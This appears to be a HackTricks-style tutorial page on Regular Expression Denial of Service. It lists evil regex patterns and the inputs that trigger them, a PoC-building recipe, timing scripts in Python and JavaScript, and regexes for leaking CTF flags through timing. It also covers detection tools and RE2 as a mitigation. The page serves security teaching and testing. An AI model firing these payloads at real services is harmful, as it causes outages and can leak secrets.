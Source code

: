 # Regular expression Denial of Service - ReDoS

{{#include ../banners/hacktricks-training.md}}

# Regular Expression Denial of Service (ReDoS)

A **Regular Expression Denial of Service (ReDoS)** happens when someone takes advantage of weaknesses in how regular expressions (a way to search and match patterns in text) work. Sometimes, when regular expressions are used, they can become very slow, especially if the piece of text they're working with gets larger. This slowness can get so bad that it grows really fast with even small increases in the text size. Attackers can use this problem to make a program that uses regular expressions stop working properly for a long time.

## The Problematic Regex Naïve Algorithm

**Check the details in [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)**

### Engine behavior and exploitability

- Most popular engines (PCRE, Java `java.util.regex`, Python `re`, JavaScript `RegExp`) use a **backtracking** VM. Crafted inputs that create many overlapping ways to match a subpattern force exponential or high-polynomial backtracking.
- Some engines/libraries are designed to be **ReDoS-resilient** by construction (no backtracking), e.g. **RE2** and ports based on finite automata that provide worst‑case linear time; using them for untrusted input removes the backtracking DoS primitive. See the references at the end for details.

## Evil Regexes <a href="#evil-regexes" id="evil-regexes"></a>

An evil regular expression pattern is that one that can **get stuck on crafted input causing a DoS**. Evil regex patterns typically contain grouping with repetition and repetition or alternation with overlapping inside the repeated group. Some examples of evil patterns include:

- (a+)+
- ([a-zA-Z]+)\*
- (a|aa)+
- (a|a?)+
- (.*a){x} for x > 10

All those are vulnerable to the input `aaaaaaaaaaaaaaaaaaaaaaaa!`.

### Practical recipe to build PoCs

Most catastrophic cases follow this shape:

- Prefix that gets you into the vulnerable subpattern (optional).
- Long run of a character that causes ambiguous matches inside nested/overlapping quantifiers (e.g., many `a`, `_`, or spaces).
- A final character that forces overall failure so the engine must backtrack through all possibilities (often a character that won’t match the last token, like `!`).

Minimal examples:

- `(a+)+$` vs input `"a"*N + "!"`
- `\w*_*\w*$` vs input `"v" + "_"*N + "!"`

Increase N and observe super‑linear growth.

#### Quick timing harness (Python)

```python
import re, time
pat = re.compile(r'(\w*_)\w*$')
for n in [2**k for k in range(8, 15)]:
    s = 'v' + '_'*n + '!'
    t0=time.time(); pat.search(s); dt=time.time()-t0
    print(n, f"{dt:.3f}s")
```

## ReDoS Payloads

### String Exfiltration via ReDoS

In a CTF (or bug bounty) maybe you **control the Regex a sensitive information (the flag) is matched with**. Then, if might be useful to make the **page freeze (timeout or longer processing time)** if the a **Regex matched** and **not if it didn't**. This way you will be able to **exfiltrate** the string **char by char**:

- In [**this post**](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) you can find this ReDoS rule: `^(?=<flag>)((.*)*)*salt$`
  - Example: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
- In [**this writeup**](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html) you can find this one:`<flag>(((((((.*)*)*)*)*)*)*)!`
- In [**this writeup**](https://ctftime.org/writeup/25869) he used: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

### ReDoS Controlling Input and Regex

The following are **ReDoS** examples where you **control** both the **input** and the **regex**:

```javascript
function check_time_regexp(regexp, text) {
  var t0 = new Date().getTime()
  new RegExp(regexp).test(text)
  var t1 = new Date().getTime()
  console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.")
}

// This payloads work because the input has several "a"s
;[
  //  "((a+)+)+$",  //Eternal,
  //  "(a?){100}$", //Eternal
  "(a|a?)+$",
  "(\\w*)+$", //Generic
  "(a*)+$",
  "(.*a){100}$",
  "([a-zA-Z]+)*$", //Generic
  "(a+)*$",
].forEach((regexp) => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"))

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```

### Language/engine notes for attackers

- JavaScript (browser/Node): Built‑in `RegExp` is a backtracking engine and commonly exploitable when regex+input are attacker‑influenced.
- Python: `re` is backtracking. Long ambiguous runs plus a failing tail often yield catastrophic backtracking.
- Java: `java.util.regex` is backtracking. If you only control input, look for endpoints using complex validators; if you control patterns (e.g., stored rules), ReDoS is usually trivial.
- Engines such as **RE2/RE2J/RE2JS** or the **Rust regex** crate are designed to avoid catastrophic backtracking. If you hit these, focus on other bottlenecks (e.g., enormous patterns) or find components still using backtracking engines.

## Tools

- [https://github.com/doyensec/regexploit](https://github.com/doyensec/regexploit)
  - Find vulnerable regexes and auto‑generate evil inputs. Examples:
    - `pip install regexploit`
    - Analyze one pattern interactively: `regexploit`
    - Scan Python/JS code for regexes: `regexploit-py path/` and `regexploit-js path/`
- [https://devina.io/redos-checker](https://devina.io/redos-checker)
- [https://github.com/davisjam/vuln-regex-detector](https://github.com/davisjam/vuln-regex-detector)
  - End‑to‑end pipeline to extract regexes from a project, detect vulnerable ones, and validate PoCs in the target language. Useful for hunting through large codebases.
- [https://github.com/tjenkinson/redos-detector](https://github.com/tjenkinson/redos-detector)
  - Simple CLI/JS library that reasons about backtracking to report if a pattern is safe.

> Tip: When you only control input, generate strings with doubling lengths (e.g., 2^k characters) and track latency. Exponential growth strongly indicates a viable ReDoS.

## References

- [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html)
- [https://ctftime.org/writeup/25869](https://ctftime.org/writeup/25869)
- SoK (2024): A Literature and Engineering Review of Regular Expression Denial of Service (ReDoS) — [https://arxiv.org/abs/2406.11618](https://arxiv.org/abs/2406.11618)
- Why RE2 (linear‑time regex engine) — [https://github.com/google/re2/wiki/WhyRE2](https://github.com/google/re2/wiki/WhyRE2)

{{#include ../banners/hacktricks-training.md}}

